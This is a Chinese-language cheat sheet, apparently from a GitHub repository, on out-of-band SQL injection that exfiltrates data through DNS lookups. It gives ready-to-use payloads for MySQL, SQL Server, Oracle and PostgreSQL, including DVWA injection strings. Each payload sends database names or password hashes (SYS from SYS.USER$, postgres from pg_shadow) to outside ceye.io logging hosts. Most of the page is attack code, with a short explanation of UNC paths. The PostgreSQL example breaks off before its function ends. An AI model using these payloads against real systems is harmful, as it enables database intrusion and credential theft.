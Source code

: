 ## 利用细节
### SQL注入
#### MySQL
* 支持load_file()函数（高版本默认不支持）
* 开启allow_url_fopen（默认开启）

核心语句：
`select load_file(concat('\\\\',hex((select database())),'.8dmer4.ceye.io\\abv'));`

dvwa实战语句1：
`1' and if((select load_file(concat('\\\\',hex((select 212)),'.8dmer4.ceye.io\\abv'))),1,0) And '1'='1`

dvwa实战语句2：
`1' and if((select load_file(concat('\\\\',hex((select schema_name from information_schema.schemata limit 0,1)),'.8dmer4.ceye.io\\abv'))),1,0) And '1'='1`


**UNC路径**

以下是百度的UNC路径的解释
>UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。

其实我们平常在Widnows中用共享文件的时候就会用到这种网络地址的形式`\\sss.xxx\test\`

这也就解释了为什么CONCAT()函数拼接了4个\了，因为转义的原因，4个就变\成了2个\，目的就是利用UNC路径。

**因为Linux没有UNC路径这个东西，所以当MySQL处于Linux系统中的时候，是不能使用这种方式外带数据**

#### SQL Server

核心语句：
```sql
DECLARE @host varchar(1024);SELECT @host=CONVERT(varchar(1024),db_name())+'.8dmer4.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');
```

实战语句：
```sql
';DECLARE @host varchar(1024);SELECT @host=CONVERT(varchar(1024),db_name())+'.8dmer4.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"')--
```

#### Oracle
```
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```


#### PostgreSQL
```
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
```